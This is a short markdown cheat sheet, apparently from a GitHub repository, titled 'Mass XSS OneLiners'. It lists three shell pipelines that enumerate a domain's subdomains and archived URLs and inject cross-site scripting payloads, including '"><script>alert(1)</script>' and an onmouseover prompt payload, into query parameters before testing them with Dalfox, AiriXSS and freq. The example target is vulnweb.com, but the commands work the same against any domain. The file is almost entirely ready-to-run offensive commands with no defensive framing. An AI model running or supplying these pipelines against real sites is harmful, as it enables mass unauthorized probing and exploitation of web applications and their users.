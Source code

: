 # Mass XSS OneLiners
- Dalfox XSS<br>
`subfinder -d vulnweb.com | httpx | katana -ps | gf xss | qsreplace | anew | dalfox pipe --skip-bav`
- AiriXSS Oneline<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | qsreplace '@x.y"><xss onmouSEOver=prompt(1337)>' | airixss -p 'prompt(1337)' | grep -v 'Not'`
- Freq XSS
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | gf xss | qsreplace '"><script>alert(1)</script>' | freq | grep -v 'Not'`
